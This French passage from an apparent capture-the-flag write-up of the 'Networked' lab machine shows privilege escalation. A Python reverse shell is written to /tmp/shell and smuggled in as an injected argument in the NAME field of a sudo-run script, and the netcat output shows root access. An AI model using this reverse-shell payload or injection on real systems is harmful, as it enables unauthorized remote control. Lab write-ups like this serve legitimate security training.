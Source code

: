 ### Command Injection

On crée un fichier "/tmp/shell" avec un code pour ouvrir un reverse shell. Ici, j'ai choisi d'utiliser un reverse shell python. Mais un code Bash classique pouvait fonctionner aussi.

```bash
[guly@networked ~]$ cat /tmp/shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Ensuite, on execute notre programme avec **sudo**, et on précise une valeur pour la variable suivi du nom de notre programme pour ouvrir le reverse shell :

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
randomtext /tmp/shell
interface PROXY_METHOD:
randomtext
interface BROWSER_ONLY:
randomtext
interface BOOTPROTO:
randomtext

-----------------------------------

nc -lnvp 7777 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:58160.
[root@networked network-scripts]# cat /root/root.txt
cat /root/root.txt
d1ce.....e93
```